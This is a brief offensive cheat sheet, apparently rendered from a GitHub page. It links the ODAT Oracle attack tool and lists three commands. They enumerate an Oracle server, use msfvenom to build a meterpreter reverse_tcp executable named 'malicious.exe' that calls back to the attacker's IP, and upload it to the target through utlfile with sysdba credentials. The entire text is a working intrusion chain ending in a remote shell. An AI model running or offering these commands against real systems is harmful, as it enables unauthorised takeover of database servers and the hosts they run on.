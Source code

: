 ### Tool: https://github.com/quentinhardy/odat/releases/

### Example usage:

#### 1) ./odat.py all -s IP_ADDRESS

#### 2) msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=OUR_IP LPORT=PORT -f exe > malicious.exe

#### 3) ./odat.py utlfile -s IP_ADDRESS -U USER -P PASSWORD -d SID --sysdba --putfile c:/malicious.exe malicious.exe
